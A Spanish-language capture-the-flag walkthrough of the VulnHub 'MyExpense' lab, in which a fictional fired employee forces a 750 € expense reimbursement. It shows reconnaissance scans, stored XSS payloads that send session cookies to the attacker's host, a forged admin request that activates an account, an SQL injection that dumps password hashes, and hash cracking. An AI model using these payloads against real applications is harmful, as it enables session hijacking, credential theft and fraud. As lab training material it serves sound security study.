

# MyExpenses VulnHub

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.18

##Contexto

Usted es "Samuel Lamotte" y acaba de ser despedido por su empresa "Furtura Business Informatique". Desafortunadamente, debido a su salida apresurada, no tuvo tiempo de validar su informe de gastos para su último viaje de negocios, que aún asciende a 750 € correspondientes a un vuelo de regreso a su último cliente.

Temiendo que su antiguo empleador no quiera reembolsarle este informe de gastos, decide piratear la aplicación interna llamada "MyExpense " para administrar los informes de gastos de los empleados.

Así que estás en tu coche, en el aparcamiento de la empresa y conectado al Wi-Fi interno (la llave aún no se ha cambiado después de tu salida). La aplicación está protegida por autenticación de nombre de usuario / contraseña y espera que el administrador aún no haya modificado o eliminado su acceso.

Sus credenciales fueron: samuel/fzghn4lw

Una vez finalizado el desafío, la bandera se mostrará en la aplicación mientras está conectado con su cuenta (samuel).

##Empezamos

Comencemos con un scaneo rapido de nmap

```
❯ nmap -T4 -Pn -A -p 80,40977,47693,52605,53925 10.0.2.18
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-27 12:44 EST
Nmap scan report for 10.0.2.18
Host is up (0.00027s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
| http-robots.txt: 1 disallowed entry 
|_/admin/admin.php
|_http-server-header: Apache/2.4.25 (Debian)
40977/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
47693/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
52605/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
53925/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.89 seconds
```

Lanzando un gobuster para ver los directorios de la pagina podemos ver que tenemos un admin/admin.php
```
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.18 -x .php,.html,.txt
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.18
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2023/02/27 13:03:55 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 1630]
/.html                (Status: 403) [Size: 1630]
/index.php            (Status: 200) [Size: 2122]
/img                  (Status: 301) [Size: 304] [--> http://10.0.2.18/img/]
/login.php            (Status: 200) [Size: 2313]
/profile.php          (Status: 401) [Size: 1650]
/site.php             (Status: 401) [Size: 1650]
/signup.php           (Status: 200) [Size: 3740]
/admin                (Status: 301) [Size: 306] [--> http://10.0.2.18/admin/]
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.18/css/]
/includes             (Status: 301) [Size: 309] [--> http://10.0.2.18/includes/]
/logout.php           (Status: 302) [Size: 0] [--> /]
/config               (Status: 301) [Size: 307] [--> http://10.0.2.18/config/]
/robots.txt           (Status: 200) [Size: 41]
/fonts                (Status: 301) [Size: 306] [--> http://10.0.2.18/fonts/]
/.php                 (Status: 403) [Size: 1630]
/.html                (Status: 403) [Size: 1630]
/server-status        (Status: 403) [Size: 1630]
```

Al ver la pagina nos encontramos con una tabla la cual incluye un monton de informacion.


Si nos intentamos logear la cuenta slamotte y la contraseña fzghn4lw nos dice que nuestra cuenta esta inactiva.

Ahora intentaremos crearnos una cuenta, sin embargo cuando vamos a darle click al boton de sign up!, al parecer esta bloqueada. 
Entramos a inspeccionar y quitamos el parametro de disabled=""


Ahora si intentamos ingresar a la pagina, con la nueva cuenta creada, nos dice que la cuenta esta inactiva. Entonces fui a /admin/admin.php y efectivamente la cuenta esta creada pero inactiva.

Ahora lo que tenemos que hacer es ver si la pagina es vulnerable a XSS. Entonces vamos a crear una nueva cuenta con una modificacion para ver si es vulnerable y si hay alguien viendo el admin.php


Entonces pongo un servidor con python desde mi maquina y vemos is estan haciendo peticiones.


Cada que recargo la pagina hace una peticion get pero yo solo recargue la pagina 1 vez. Las otras peticiones las esta haciendo alguien mas. Quiza el administrador o alguien que esta viendo los usuarios.

Aprovechando que hay alguien recargando la pagina de /admin/admin.php vamos intentar a robarle las cookies.
Para esto me creo una xss.js osea con el mismo nombre que puse el archivo antes.

- xss.js
```
var request = new XMLHttpRequest();
request.open('GET', 'http://10.0.2.4/?cookie=' + document.cookie);
request.send()
```

Lo guardamos y nos montamos el servidor con python de nuevo

Ahora tenemos la cookie de una sesion
```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.2.18 - - [27/Feb/2023 13:35:33] "GET /xss.js HTTP/1.1" 200 -
10.0.2.18 - - [27/Feb/2023 13:35:33] "GET /?cookie=PHPSESSID=doiro4jbnco1s759jl4chimtu0 HTTP/1.1" 200 -
```

Cambiamos el valor en inspeccionar por la nueva cookie que nos han proporcionado


Lamentablemente nos suelta un mensaje de 'Sorry, as an administrator, you can be authenticated only once a time.'

En la pagina puedo darle click al status de mi cuenta y me lleva  a esta URL ``http://10.0.2.18/admin/admin.php?id=11&status=active``

Es como si estuvieras intentando activar una cuenta, Entonces si se la mandamos al administrador mediante nuestro xss.js en teoria deberia activarnos la cuenta.

Modificamos el script y nos montamos el servidor con python

```
❯ cat xss.js                         
var request = new XMLHttpRequest();
request.open('GET', 'http://10.0.2.18/admin/admin.php?id=11&status=active');
request.send()
```
Ahora recargamos la pagina de /admin.php y nos dice que nuestra cuenta de Samuel esta activa.

##-------------------------------------------------------------
Por temas de mala configuracion perdi la maquina y tuve que volver a instalarla. 
A partir de ahora la ip victima sera la 10.0.2.19
Sin mas que decir continuamos :)
##-------------------------------------------------------------

Aqui en la pagina ya logeados como Samuel (nosotros)
Vemos dentro de expense reports que debemos enviar la solicitud de pago de 750. Entonces la enviamos con el boton verde.


Una vez subido, significa que hemos hecho la solicitud para que nos paguen los $750, pero no significa que nos han pagado.

Viendo mi perfil me doy cuenta que nuestro manager es Mannon Riviere y buscando en la pagina de /admin/admin.php podemos ver que su usuario es ``mriviere``. Seguro que el es el que nos tiene que aceptar el pago de $750.

Ahora lo que tenemos que hacer es buscar la manera de obtener las cookies de session. Para esto en Home, vemos que podemos escribir un mensaje.


Creamos el script xss1.js
```
❯ cat xss1.js 
var request = new XMLHttpRequest();
request.open('GET', 'http://10.0.2.4:9000/?cookies=' + document.cookie);
request.send();
```
Montamos el servidor con python y nos llegan un monton de cookies de diferentes cuentas. Asi que por ultimo iremos a ver cual cookie es la de Mannon Riviere


Al final con la suerte fue la primera cookie que intercepto y ya estamos como Manon Riviere

Ya como Manon validamos el reporte de Samuel


Aun no nos envian el dinero porque alguien mas tiene que aceptar nuestro pago. Viendo quien esta como manager de Mannon vemos que es un tal Paul Baudouin y buscandolo en el /admin.php tiene de rol el Financial approver.

A este no le hemos podido robar las cookies de sesion.

Entrando a la seccion de Rennes vemos algo muy peculiar en la URL ``http://10.0.2.19/site.php?id=2``

Por la URL nos disponemos a ver si es vulnerable a SQLI.
Ahora si confirmamos que es vulnerable a SQLI


Al parecer el campo inyectable es el numero 2





Ahora si nos copiamos todos los usuarios y contraseñas que estan con hashes y procedemos a desifrarlas.

```
❯ cat creds.txt 
afoulon:124922b5d61dd31177ec83719ef8110a
pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
test1:05a671c66aefea124cc08b76ea6d30bb
```

Entonces ahora agarramos la contraseña de pbaudouin y con crackstation nos sale el resultado de HackMe


Ahora ingresamos a su cuenta y logramos pagarnos


Ahora volviendo a la cuenta de Samuel y entrando a expense_reports.php obtenemos la flag{H4CKY0URL1F3}
